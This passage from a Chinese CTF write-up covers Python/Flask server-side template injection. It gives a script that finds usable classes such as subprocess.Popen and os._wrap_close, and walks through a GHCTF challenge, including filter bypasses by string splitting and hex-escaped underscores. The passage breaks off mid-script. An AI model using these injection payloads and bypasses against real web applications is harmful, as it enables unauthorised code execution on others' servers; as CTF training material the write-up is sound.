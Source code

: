 #### 检测有用的类
这时我们就获取到了许多类，下来就是在这些类中筛选我么可以利用的类，可以使用脚本  
其中`__subclasses__()[138]`后的`[138]`在不同python环境中数字不同需要我们穷举，下面是一个帮助我们在列举类中找出可以利用类的脚本：
```py
import re

# 将查找到的父类列表替换到data中
data = r'''
    [<class 'type'>, <class 'weakref'>, ......]
'''
# 在这里添加可以利用的类，下面会介绍这些类的利用方法
userful_class = ['linecache', 'os._wrap_close', 'subprocess.Popen', 'warnings.catch_warnings', '_frozen_importlib._ModuleLock', '_frozen_importlib._DummyModuleLock', '_frozen_importlib._ModuleLockManager', '_frozen_importlib.ModuleSpec']

pattern = re.compile(r"'(.*?)'")
class_list = re.findall(pattern, data)
for c in class_list:
    for i in userful_class:
        if i in c:
            print(str(class_list.index(c)) + ": " + c)
```

例题：https://buuoj.cn/challenges#[Flask]SSTI

## GHCTF

### upload?SSTI!

#### 分析
题目名是SSTI，附件是题目源码，里面提到`render_template_string()`函数，所以可能存在SSTI  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250305190303.png)  
看到模板里嵌入了`name`和`data`两个变量，尝试了下发现`name`不行，所以用`data`注入，即上传文件的内容  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250305190927.png)  
传入`{{7*7}}`成功上传，并且回显`49`，证明存在SSTI  
试了几次发现过滤了`subclasses`、`os`和`_`下划线,字符串可以拼接绕过:`['subcla'+'sses']`、`['o'+'s']`，下划线可以用16进制绕过  
先传入`{{''["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubcl"+"asses\x5f\x5f"]()}}`获取到很多类:   
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250305191425.png)    
使用脚本筛选:  
```py
import re

# 将查找到的父类列表替换到data中
data = r'''
```